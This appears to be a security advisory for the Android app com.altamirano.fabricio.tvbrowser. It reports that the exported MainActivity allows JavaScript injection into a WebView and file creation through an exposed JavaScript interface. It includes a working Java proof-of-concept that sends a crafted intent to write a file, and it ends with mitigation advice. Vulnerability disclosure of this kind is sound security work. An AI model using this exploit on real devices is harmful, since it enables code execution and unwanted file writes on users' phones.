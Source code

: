 

---

## Vulnerability Report: Code Injection (CWE-94) & Arbitrary File Creation

### Overview:

The `com.altamirano.fabricio.tvbrowser.MainActivity` activity is exported and can be invoked by third-party applications, exposing the app to potential attacks.

### Affected Component:
- **Component**: `com.altamirano.fabricio.tvbrowser.MainActivity`

### Code Injection Details:

A remote attacker can invoke the `MainActivity` of the `com.altamirano.fabricio.tvbrowser` app by sending an explicit intent. When a crafted URI sent via intent is subsequently passed to the WebView, JavaScript code can be executed within the app's context.

### Arbitrary File Creation via JavaScript Interface Exposure:

The `MainActivity`'s WebView exposes certain JavaScript interfaces which can lead to arbitrary file creation vulnerabilities.

**Proof of Concept (Code Injection):**

![image](https://github.com/actuator/com.altamirano.fabricio.tvbrowser/blob/main/TVBrowserDemo.gif)

```java
public void launchBrowser() {
    // Constructing the JavaScript code to directly invoke the exposed JavaScript interface method.
    String base64TestData = "VGhpcyBpcyBhIHRlc3QgZm9yIHRoZSB2dWxuZXJhYmlsaXR5IFBvQy4="; // Represents "This is a test for the vulnerability PoC."
    String jsCode = String.format("javascript:if(window.Android && typeof window.Android.getBase64FromBlobData === 'function'){ window.Android.getBase64FromBlobData('data:text/plain;base64,%s', 'test.txt'); }", base64TestData);

    Intent intent = new Intent(Intent.ACTION_VIEW);
    intent.setComponent(new ComponentName("com.altamirano.fabricio.tvbrowser", "com.altamirano.fabricio.tvbrowser.MainActivity"));
    intent.setData(Uri.parse(jsCode));
    startActivity(intent);
}
```

![TVBrowserDemo](https://github.com/actuator/com.altamirano.fabricio.tvbrowser/assets/78701239/5835748e-cd5a-4d06-bd95-d56d0700867f)

---


### Exploit Overview:
1. **Arbitrary Code Execution (ACE)**: Using the exported activity, an attacker can trigger the loading of malicious URLs, leading to code execution within the app's context.
2. **Arbitrary File Creation (AFC)**: Using the exposed JavaScript interfaces, an attacker can create or overwrite files in the Downloads folder.

Arbitrary File Creation (AFC) vulnerabilities pose serious risks, enabling malicious actors to distribute illegal content and potentially complicate digital forensics. 

### Recommendations Update:
1. **Assess Exported Activities**: Ensure activities are not unnecessarily exported. If they are, apply appropriate intent filters and permissions.
2. **Restrict JavaScript Interfaces**: If the WebView in your application supports JavaScript, ensure it doesn't expose sensitive functionality or data to the running JavaScript.


### References Update:
- [CWE-94: Improper Control of Generation of Code ('Code Injection')](https://cwe.mitre.org/data/definitions/94.html)
- [CWE-73: External Control of File Name or Path](https://cwe.mitre.org/data/definitions/73.html)



---

